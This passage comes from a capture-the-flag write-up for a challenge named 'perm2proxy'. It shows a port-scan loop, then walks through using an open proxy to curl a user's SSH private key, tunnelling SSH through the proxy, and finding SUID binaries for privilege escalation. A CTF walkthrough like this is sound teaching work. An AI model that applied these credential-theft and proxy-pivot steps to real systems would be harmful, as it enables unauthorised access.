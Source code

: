 ```python
	for future in tqdm(as_completed(futures), total=total_ports, desc="Scanning Ports"):
		port = future.result()
		if port is not None:
			print(f"Port {port} is open (HTTP 200)")
			open_ports.append(port)

print("Scanning complete.")
print(f"Open ports: {open_ports}")
```

Use curl against the port to see a dir listing - then knowing an ssh key was needed, check /home to find **user**. Pull down the ssh key using:

```bash
curl -x http://challenge.ctf.games:30499 http://127.0.0.1:50000/home/user/.ssh/id_rsa
```

From there tunnel via proxy again to ssh on the localhost and connect with the key:

```bash
proxytunnel -p challenge.ctf.games:30499 -d 127.0.0.1:22 -a 1234
ssh -i id_rsa user@127.0.0.1 -p 1234
```

Nice, we're in! Now to escalate privileges. This was trivial and found searching for binaries with the SUID bit set:

```bash
find / -perm -4000 -exec ls -l {} \; 2>/dev/null
```

`/bin/bash` was one such binary. Utilised like so would reveal the flag:

![perm2proxy](/assets/img/huntress_ctf24/perm2proxy.png)
